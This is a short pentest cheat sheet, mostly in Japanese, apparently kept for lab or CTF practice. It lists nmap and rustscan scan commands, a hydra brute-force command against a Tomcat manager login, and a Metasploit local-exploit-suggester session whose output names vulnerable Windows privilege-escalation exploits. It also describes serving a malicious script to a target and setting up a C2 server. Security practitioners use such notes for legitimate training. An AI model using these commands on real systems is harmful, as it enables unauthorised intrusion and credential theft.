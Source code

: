 # Cheat Sheet


## Portscan

### nmap
- 全ポートスキャン: `nmap -sS -A -T4 -Pn -p- $IP`
- 特定ポートのチェック: `sudo nmap -sS -A -p[port] --script vuln $IP`

### rustscan
- installation: `sudo snap install -y rustscan`
- 全ポートスキャン: `rustscan -a $IP -- -Pn -A`

## Password Cracking

### hydra
- webサービスで総当たりする，
- Basic認証総当たり(`user:pass`形式のコーパス): `hydra -C ~/tools/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-post://$IP:8080/manager/html`


## Exploitation

### msfvenom
- metasploitのペイロードを取れる
- ペイロードの列挙: `msfvenom -l payloads`


## Privesc
### local exploit suggester
- meterpreter shell をバックグラウンドに移し、```use post/multi/recon/local_exploit_suggester``` する
- sesionオプションを指定し、run 
  ```msf6 exploit(windows/iis/iis_webdav_upload_asp) > use post/multi/recon/local_exploit_suggester
  msf6 post(multi/recon/local_exploit_suggester) > options

  Module options (post/multi/recon/local_exploit_suggester):

     Name             Current Setting  Required  Description
     ----             ---------------  --------  -----------
     SESSION                           yes       The session to run this module on
     SHOWDESCRIPTION  false            yes       Displays a detailed description for the available e
                                                 xploits

  msf6 post(multi/recon/local_exploit_suggester) > set session 3
  session => 3
  msf6 post(multi/recon/local_exploit_suggester) > run

  [*] 10.10.10.15 - Collecting local exploits for x86/windows...
  [*] 10.10.10.15 - 37 exploit checks are being tried...
  [+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
  [+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
  [+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
  [+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
  [+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
  [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
  [*] Post module execution completed
  ```



## Reverse shells

### SimpleHTTPserver
- カレントディレクトリをルートとした簡易Webサーバを立てることができる．
  - ```sudo python -m SimpleHTTPServer [port]```
- 対象サーバで```<script src="http://.../a.js">```により任意の悪意のあるJavaScriptを実行させることなどが可能

### SilentTrinity
- C2 server を立てることができる
